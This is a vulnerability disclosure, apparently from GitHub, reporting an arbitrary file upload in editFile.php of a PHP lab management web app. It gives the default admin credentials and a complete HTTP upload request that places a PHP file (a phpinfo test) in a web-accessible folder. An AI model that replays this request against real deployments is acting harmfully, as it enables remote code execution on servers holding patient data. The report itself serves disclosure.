 # Online Diagnostic Lab Management System v1.0 by mayuri_k has arbitrary code execution (RCE)

BUG_Author: Via

vendors: https://www.sourcecodester.com/php/15667/online-diagnostic-lab-management-system-using-php-and-mysql-free-download.html

The program is built using the xmapp-php8.1 version

Login account: mayuri.infospace@gmail.com/rootadmin (Super Admin account)

Vulnerability url: ip/diagnostic/php_action/editFile.php?id=1

Loophole location: Online Diagnostic Lab Management System's editFile.php file exists arbitrary file upload (RCE)

Request package for file upload：

```sql
POST /diagnostic/php_action/editFile.php?id=1 HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.88/diagnostic/editorder.php?id=1
Cookie: PHPSESSID=flklolh755oivesj89eu5fo2c7
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------269801976022857
Content-Length: 431

-----------------------------269801976022857
Content-Disposition: form-data; name="old_image"

Z614.pdf
-----------------------------269801976022857
Content-Disposition: form-data; name="productImage"; filename="se.php"
Content-Type: application/octet-stream

<?php phpinfo(); ?>
-----------------------------269801976022857
Content-Disposition: form-data; name="btn"


-----------------------------269801976022857--

```

The files will be uploaded to this directory \diagnostic\assets\myimages\

![image](https://user-images.githubusercontent.com/54017627/191397805-e9a3d96e-76e8-4bb6-9a32-9080a6dc58e5.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/191398959-6f0392a7-d90a-4809-8c6b-785aa278cea5.png)
